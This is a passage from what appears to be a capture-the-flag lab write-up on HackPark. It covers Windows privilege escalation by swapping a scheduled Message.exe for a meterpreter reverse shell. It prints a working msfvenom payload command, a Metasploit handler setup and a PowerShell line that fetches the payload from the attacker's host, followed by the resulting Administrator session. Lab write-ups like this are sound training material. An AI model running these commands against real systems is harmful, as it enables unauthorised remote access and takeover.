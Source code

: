 Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   0     dir   2019-08-03 20:15:04 +0200  .NET v4.5
40777/rwxrwxrwx   0     dir   2019-08-03 20:15:04 +0200  .NET v4.5 Classic
40777/rwxrwxrwx   8192  dir   2019-08-03 19:43:51 +0200  Administrator
40777/rwxrwxrwx   0     dir   2013-08-22 16:48:41 +0200  All Users
40555/r-xr-xr-x   8192  dir   2013-08-22 15:36:16 +0200  Default
40777/rwxrwxrwx   0     dir   2013-08-22 16:48:41 +0200  Default User
40555/r-xr-xr-x   4096  dir   2013-08-22 15:36:16 +0200  Public
100666/rw-rw-rw-  174   fil   2013-08-22 17:39:32 +0200  desktop.ini
40777/rwxrwxrwx   0     dir   2019-08-04 20:54:52 +0200  jeff

meterpreter > cd jeff
[-] stdapi_fs_chdir: Operation failed: Access is denied.

Time to replace `C:\Program Files (x86)\SystemScheduler\Message.exe` with a reverse shell. Let’s first generate a new reverse shell (use a new port) that we will name `Message.exe`:

$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.**.** LPORT=3456 -f exe -o Message.exe
$ python3 -m http.server

In Metasploit, configure the TCP handler:

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.9.**.**
LHOST => 10.9.**.**
msf5 exploit(multi/handler) > set LPORT 3456
LPORT => 3456
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.**.**:3456 

In the existing reverse shell, download your new reverse shell to replace the initial `Message.exe` with it:

powershell -c "Invoke-WebRequest -Uri 'http://10.9.**.**:8000/Message.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"

After some seconds, we have a meterpreter as `Administrator`:

[*] Sending stage (176195 bytes) to 10.10.79.198
[*] Meterpreter session 1 opened (10.9.**.**:3456 -> 10.10.79.198:52832) at 2020-05-17 19:19:03 +0200

meterpreter > getuid 
Server username: HACKPARK\Administrator
meterpreter > cd c:\users\jeff\desktop\
meterpreter > ls
Listing: C:\users\jeff\desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-08-04 20:54:53 +0200  desktop.ini
100666/rw-rw-rw-  32    fil   2019-08-04 20:55:12 +0200  user.txt
